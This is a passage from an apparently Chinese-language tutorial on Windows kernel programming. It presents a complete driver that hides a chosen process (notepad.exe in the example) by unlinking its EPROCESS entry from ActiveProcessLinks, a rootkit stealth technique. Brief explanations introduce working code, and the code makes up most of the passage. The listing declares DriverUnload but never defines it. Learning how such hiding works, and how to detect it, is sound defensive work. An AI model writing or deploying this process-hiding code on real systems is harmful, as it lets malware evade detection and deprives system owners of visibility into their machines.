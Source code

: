 ```c++
        ImageFileName = (PCHAR)pCurProcess + 0x174;
        if (strcmp(ImageFileName, "notepad.exe") == 0)
```

如果是我们想要隐藏的进程就执行断链操作

```c++
            curNode = (PLIST_ENTRY)((ULONG)pCurProcess + 0x88);
            nextNode = curNode->Flink;
            preNode = curNode->Blink;

            preNode->Flink = curNode->Flink;

            nextNode->Blink = curNode->Blink;
```

如果不是我们想要的进程就继续往下取`ActiveProcessLinks`的值

```c++
pCurProcess = (PEPROCESS)(*(PULONG)((ULONG)pCurProcess + 0x88) - 0x88);
```

完整代码如下

```c++
#include <ntddk.h>

NTSTATUS DriverEntry(PDRIVER_OBJECT driver, PUNICODE_STRING reg_path);
VOID DriverUnload(PDRIVER_OBJECT driver);

NTSTATUS DriverEntry(PDRIVER_OBJECT driver, PUNICODE_STRING reg_path)
{
    PEPROCESS pEprocess, pCurProcess;
    PCHAR ImageFileName;

    __asm
    {
        mov eax, fs: [0x124] ;
        mov eax, [eax + 0x220];
        mov pEprocess, eax;
    }
    pCurProcess = pEprocess;

    do
    {
        ImageFileName = (PCHAR)pCurProcess + 0x174;
        if (strcmp(ImageFileName, "notepad.exe") == 0)
        {
            PLIST_ENTRY preNode, curNode, nextNode;

            curNode = (PLIST_ENTRY)((ULONG)pCurProcess + 0x88);
            nextNode = curNode->Flink;
            preNode = curNode->Blink;

            preNode->Flink = curNode->Flink;

            nextNode->Blink = curNode->Blink;

            DbgPrint("断链成功!\n");
        }
        pCurProcess = (PEPROCESS)(*(PULONG)((ULONG)pCurProcess + 0x88) - 0x88);
    } while (pEprocess != pCurProcess);

    driver->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}

```